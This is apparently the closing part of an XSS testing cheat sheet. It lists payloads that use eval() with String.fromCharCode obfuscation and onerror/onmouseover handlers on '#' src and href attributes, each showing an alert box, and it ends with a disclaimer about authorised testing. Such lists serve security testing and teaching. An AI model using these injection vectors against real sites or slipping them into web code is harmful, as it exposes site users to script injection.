 #### Using `eval()` with Obfuscated Strings
- **Description:** `eval()` can execute strings, which can be obfuscated.
- **Payload:** `<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41));</script>` (alerts 'XSS')

#### Default SRC / HREF attributes
- **Description:** Using `#` or empty `src`/`href` attributes with event handlers.
- **Payload:** `<img src=# onerror="alert('XSS from default src')">`
- **Payload:** `<a href=# onmouseover="alert('XSS from default href')">Hover me</a>`

---
*Disclaimer: This list is for educational and testing purposes only. Always ensure you have explicit permission before testing any application for XSS vulnerabilities.*
